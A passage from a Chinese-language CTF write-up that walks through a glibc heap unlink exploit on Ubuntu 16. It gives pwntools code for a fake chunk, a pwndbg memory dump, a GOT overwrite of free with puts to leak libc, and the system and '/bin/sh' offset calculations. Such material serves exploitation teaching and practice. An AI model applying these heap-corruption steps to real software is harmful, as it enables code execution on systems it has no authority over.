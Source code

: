 fd=ptr-0x18

bk=ptr-0x10

这样就可以绕过unlink的检测

```python
add(0x20)#1
add(0x30)#2
add(0x80)#3
add(0x30)#4
```

我们先构造fake chunk 用于绕过unlink的非法检测

注意哦，chunk3大小必须大于fastbin的大小不然是不会进入unsortedbin

然后这里是Ubuntu16的系统不需要考虑tcache。

```python
p1=p64(0)#prev_size
p1+=p64(0x30)#fake chunk_size
p1+=p64(fd)+p64(bk)
p1+='a'*0x10#junk code
p1+=p64(0x30)#prev_size
p1+=p64(0x90)'''fake chunk_size insure位置为0欺骗程序让程序误认为前面的chunk被释放了'''
edit(2,p1)
free(3)#unlink
```

unlink后的效果，很明显的可以看见chunk2和fake chunk有重叠的部分

fake chunk是c1 他的fd bk指针在9470这里开始

我们等下就可以往这里写入got表。

```c
pwndbg> x/32gx 0x14a9450
0x14a9450:	0x0000000000000000	0x0000000000000041
0x14a9460:	0x0000000000000000	0x00000000000000c1
0x14a9470:	0x00007f1ac4923b78	0x00007f1ac4923b78
0x14a9480:	0x6161616161616161	0x6161616161616161
0x14a9490:	0x0000000000000030	0x0000000000000090
0x14a94a0:	0x0000000000000000	0x0000000000000000
0x14a94b0:	0x0000000000000000	0x0000000000000000
0x14a94c0:	0x0000000000000000	0x0000000000000000
0x14a94d0:	0x0000000000000000	0x0000000000000000
0x14a94e0:	0x0000000000000000	0x0000000000000000
0x14a94f0:	0x0000000000000000	0x0000000000000000

```

### 第二步 泄露libc

从上面的代码块可以看出fake chunk我们应该怎么去填充构造更改got表

```python
p2 = 'b'*0x10 + p64(free_got)+p64(puts_got)
edit(2,p2)
p3=p64(puts_plt)
edit(1,p3)
free(2)
leak = u64(r.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('leak:'+hex(leak))
base=leak-0x06f6a0
sys=base+0x0453a0
binsh=base+0x18ce17
```
